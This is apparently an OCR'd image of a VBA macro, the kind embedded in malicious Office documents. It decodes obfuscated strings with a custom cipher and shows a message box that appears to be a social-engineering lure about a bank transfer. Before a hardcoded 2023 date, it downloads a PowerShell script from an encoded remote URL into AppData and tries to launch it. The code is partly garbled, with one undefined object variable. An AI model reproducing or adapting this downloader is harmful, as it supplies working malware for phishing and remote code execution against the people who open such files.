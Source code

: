 ```
Dim outer_var2 As String
Dim outer_var3 As String
Dim outer_var4 As String
Dim outer_var5 As Integer
outer_var5 = Chr(50) + Chr(48) + Chr(48)
Set outer_var1 = CreateObject("WScript.Shell")
outer_var2 = outer_var1.SpecialFolders("AppData")
Dim outer_var6
Dim outer_var7
Dim outer_var8
Dim var6 As Long
Dim var8 As String
Dim outer_var9 As Long
Dim var11 As String
Dim var10 As Long
Dim var12 As String
Dim outer_var10 As String
Dim var9 As Long
Dim outer_var11
Dim outer_var12
Dim outer_var13 As Integer
Dim outer_var14
Dim outer_var15
outer_var13 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim outer_var16 As String
outer_var17 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
outer_var16 = func1(outer_var17)
MsgBox outer_var16, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim outer_var18 As Date
Dim outer_var19 As Date
outer_var18 = Date
outer_var19 = DateSerial(2023, 6, 6)
If outer_var18 < outer_var19 Then
Set outer_var14 = CreateObject("microsoft.xmlhttp")
Set outer_var12 = CreateObject("Shell.Application")                                                                                 
outer_var11 = outer_var2 + func1("\k¿i6Ü_~Bb@")
outer_var14.Open "get", func1("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
outer_var14.send
outer_var7 = outer_var14.responseBody
If outer_var14.Status = 200 Then
Set outer_var6 = CreateObject("adodb.stream")                                                                                   
outer_var6.Open
outer_var6.Type = outer_var13
outer_var6.Write outer_var7
outer_var6.SaveToFile outer_var11, outer_var13 + outer_var13
outer_var6.Close
End If
outer_var20.Open (outer_var11)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub

```
